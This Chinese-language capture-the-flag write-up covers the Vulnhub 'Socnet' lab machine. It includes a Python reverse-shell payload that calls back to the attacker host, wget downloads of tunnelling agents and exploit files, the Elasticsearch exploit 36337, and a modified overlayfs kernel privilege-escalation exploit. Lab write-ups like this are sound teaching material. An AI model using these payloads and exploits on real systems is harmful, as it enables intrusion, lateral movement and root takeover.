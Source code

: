 ﻿---
title: Chapter1_Medium_Socnet
categories:
- Network_Security
- Vulnhub
- Chapter1
tags:
- Network_Security
- Vulnhub
date: 2024-04-05 13:32:28
---


# Socnet 打靶学习记录（考研痛苦后的第一篇复健）

## 1. 过程记录

### 1.1 外围探测与信息收集

1. 同一内网下直接使用 arp-scan 来进行主机发现

2. nmap 扫描端口，发现其开放端口 5000：
    `nmap -Pn -sV 192.168.0.104 -p 1-65535`

3. Web 页面没有可以利用的点，从而进行目录扫描，最终发现 /admin 代码测试界面：
    `dirsearch -u http://192.168.0.104:5000`

4. 根据 nmap 结果，判断其是一个基于 Python 的 Web 程序，使用 Python 反弹（百度） WebShell：
    `nc -lvvp 4444 # 监听 4444 端口`

    ```python
    # Python 反弹 Shell 代码
    import socket,subprocess,os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("192.168.0.2",4444))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/sh","-i"])
    ```

### 1.2 内部信息收集

1. 进入系统后进行信息收集，发现是 docker 容器。判断是否真的是 docker 容器：

    1. `ls /.dockerenv` 文件是否存在
    2. `cat /proc/1/cgroup` 文件是否都是 docker 文件
        1. `/proc/1/cgroup` 的含义
        2. 存放的都是 docker 的 hash 值
2. 查看网络，发现还有内网地址，用 shell 脚本命令可以用来暂时探测 172 内网网段：
    `for i in $(seq 1 255); do ping -c 1 172.17.0.$i; done`

### 1.3 内网穿透与扫描

1. 想进一步进行渗透的话，需要内网穿透，这里使用 Venom 进行渗透。
    kali 监听 9999 并开启 http 服务：

    ```bash
    ./admin_linux_x64 -lport 9999
    python3 -m http.server 80
    ```

2. 靶机通过 wget 下载客户端程序，赋予权限并反向链接
    `wget http://192.168.0.2（kali 的 ip）/agent_linux_x64`

3. 靶机赋予权限并反向链接
    ```bash
    chmod +x agent_linux_x64
    ./agent_linux_x64 -rhost 192.168.0.2（kali ip） -rport 9999
    ```

4. kali 进入节点中并开启 socks5 代理：
    ```bash
    show # 查看节点
    goto 1 # 进入节点 1
    socks 1080 # 监听 1080 端口
    ```

5. 使用 proxychains4 网络代理工具，设置代理端口
    `vim /etc/proxychains4.conf`
    同时别忘了最后一行改为：
    `socks5 127.0.0.1 1080`

6. 接着就是扫内网了：
    `proxychains nmap -Pn -sV -p 1-65535 172.17.0.1-3`

### 1.4 横向移动与 EXP 的使用

1. 通过浏览器设置 socks5 代理访问 172.17.0.1:5000 可知这个 ip 是 docker 对内 ip。 最终172.17.0.3 容器中的 9200 端口开放了 Elasticsearch REST API 服务，运用 metasploit 找 exp 进行攻击。
    `searchsploit Elasticsearch`

2. 先尝试第一个攻击脚本：
    ```bash
    cp /usr/share/exploitdb/exploits/linux/remote/36337.py /home/hacker # 先将 exp 拷贝出来
    # 查看 exp 发现是 python2 的脚本，因此使用 python2 执行
    python2 36337.py
    ```

3. 拿到第二个容器的 root 权限，信息收集后，看到其 passwords 文件中有用户名和密码的 hash 值，需要进行 MD5 破解。

4. 破解后，用密码通过 ssh 登录到靶机（注意这是已经不是在容器中了，而是在靶机中）：
    `ssh john@192.168.0.104（靶机 ip）`

### 1.5 提权与 EXP 的修改

1. 提权

    1. 先试试 sudo su
    2. 利用内核提权

2. 利用内核提权：
      `search linux 3.13`

3. 还是先查看 exp 的使用方法，简略阅读 exp 源码，然后执行。（这里使用的是 37292（Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation），对于 C 语言的 exp，靶机没有 gcc，kali 需要编译成 elf 文件然后传过去。

4. 传过去执行还是报错，源码中其实有段代码：
    `lib = system("gcc -fPIC -shared -o....")`
    exp 过程中使用到了 gcc，而靶机本身是没有 gcc 的，因此需要手动执行，并将文件放到靶机对应的地方。

5. 修改 exp，为：
      ![image-20240108115350035](image-20240108115350035.png)
      将其中涉及 gcc 编译生成 ofs-lib.so 共享文件的代码给删掉。

6. 接着 `locate ofs-lib.so` 查看 kali 上是否已经有该文件，没有就按照原代码那样生成一个 ofs-lib.so。

7. 编译修改后的 37292，将生成的 exp 和 ofs-lib.so 传到靶机上，同时注意要将 ofs-lib.so 放到靶机的 tmp 目录：
    ```bash
    gcc 37292.c -o exp
    cp /usr/share/metasploit-framework/data/exploits/CVE-2015-1328/ofs-lib.so . # 将 ofs-lib.so 拿过来
    # 通过 http 服务，用 wget 将 exp 和 ofs-lib.so 传到靶机的 /tmp 上
    # 靶机执行：
    chmod +x exp
    ./exp
    ```

    PS：[高版本下 kali gcc 的 glibc 指定版本的编译问题](#2.3 高版本下 kali gcc 的 glibc 指定版本的编译问题（执行 elf 文件时报错：version `GLIBC_2.34‘ not found）)

## 2. 知识点总结

### 2.1 一些细节

1. 同一内网下 arp 的扫描要更快。
2. docker 容器的判断。
3. Venom 内网穿透工具的使用
4. 每次使用 EXP 之前尽量大概浏览一下 EXP 的源码

### 2.2 简单总结一下渗透流程

1. 扫端口和服务，站点的信息收集
2. 访问页面查看利用点、路径爆破
3. 内网穿透与扫描，横向移动与容器逃脱
4. 提权

### 2.3 高版本下 kali gcc 的 glibc 指定版本的编译问题（执行 elf 文件时报错：version `GLIBC_2.34‘ not found）

  1. 报错需要 GLIBC_2.34，那就去下载 GLIBC_2.34。

  2. 解决方法的来源：

      > https://blog.csdn.net/weixin_65527369/article/details/127973141
      >
      > https://blog.csdn.net/weixin_49764009/article/details/124970461

  3. 先下载 glibc-all-in-one 工具：
      `git clone https://github.com/matrix1001/glibc-all-in-one.git`

  4. 根据工具的 readme 来使用（要在 root 的权限下执行）：
      ```bash
      cd glibc-all-in-one/
      python3 update_list # 更新列表
      cat list 或者 old_list # 查看可以安装的 glibc 版本
      ./download 具体版本的 gblic
      ```

  5. 配置 patchelf（如果需要 kali 执行 elf 文件时需要配置，这里是靶机执行，应该可以不用安装）
      ```bash
      git clone https://github.com/NixOS/patchelf.git
      cd patchelf
      ./bootstrap.sh 
      ./configure
      make
      make check
      sudo make install
      ```

  6. kali 指定 glibc 版本并编译 poc：
      ```bash
      gcc -Wl,-rpath="/tmp/exp_package/2.34-0ubuntu3_amd64/",-dynamic-linker="/tmp/exp_package/2.34-0ubuntu3_amd64/ld-linux-x86-64.so.2" -s 37292.c -o exp # 注意没有空格，-rpath 和 -dynamic-linker 之间不能有空格！
      ```

  7. 注意编译链接 so 的路径是绝对路径，因此靶机上也要有相应的文件路径：
      ```bash
      # 靶机上
      mkdir /tmp/exp_package # 要求 so 文件路径保持一致
      cd /tmp/exp_package
      wget -r -c -nH -np http://192.168.0.2(kali)/2.34-0ubuntu3_amd64 # 把整个文件夹都下载下来
      chmod +x -R ./2.34-0ubuntu3_amd64 # 将 glibc 所有文件的权限进行修改，不然无法执行 exp
      ```

  8. 这时再执行 exp 即可。

  9. TODO: gcc 的 `-rpath` 和 `-dynamic-linker` 应该可以使用相对路径。
